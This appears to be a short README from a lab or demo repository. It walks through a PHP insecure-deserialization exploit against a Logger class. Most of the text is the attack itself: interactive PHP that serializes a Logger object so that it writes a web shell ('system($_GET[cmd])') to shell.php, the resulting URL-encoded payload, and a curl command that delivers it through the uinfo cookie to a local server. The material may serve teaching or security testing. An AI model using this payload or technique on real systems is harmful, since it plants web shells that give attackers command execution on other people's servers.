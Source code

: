 # Exploit Steps

First, in the "app" directory run `php -a`

Then run the following commands:

```
include 'logger-class.php';
$logger = new Logger();
$logger->filename = "./shell.php";
$logger->last_log = '<?php system($_GET["cmd"]); ?>';
$serialized = serialize($logger);
$encoded = urlencode($serialized);
print($encoded);
```

In order, we first include `logger-class.php`. Then we create a new instance of the Logger class and define some properties on that instance. We make the instance's filename `./shell.php`, which is where we will put the payload, and we set `last_log` as some PHP code that will grab whatever is in the `cmd` query parameter and execute as a system command. Next, we serialize the logger instance, we url encode the serialized string to make it safe for putting in our cookie, and then we finally print the resulting string, which is as follows:

`O%3A6%3A%22Logger%22%3A2%3A%7Bs%3A8%3A%22filename%22%3Bs%3A11%3A%22.%2Fshell.php%22%3Bs%3A8%3A%22last_log%22%3Bs%3A30%3A%22%3C%3Fphp+system%28%24_GET%5B%22cmd%22%5D%29%3B+%3F%3E%22%3B%7D`

Finally, visit your php server and replace the `uinfo` cookie with the encoded string above, or make the following curl request:

```
curl 'http://localhost:9002/' -H 'Cookie: uinfo=O%3A6%3A%22Logger%22%3A2%3A%7Bs%3A8%3A%22filename%22%3Bs%3A11%3A%22.%2Fshell.php%22%3Bs%3A8%3A%22last_log%22%3Bs%3A30%3A%22%3C%3Fphp+system%28%24_GET%5B%22cmd%22%5D%29%3B+%3F%3E%22%3B%7D' 
```
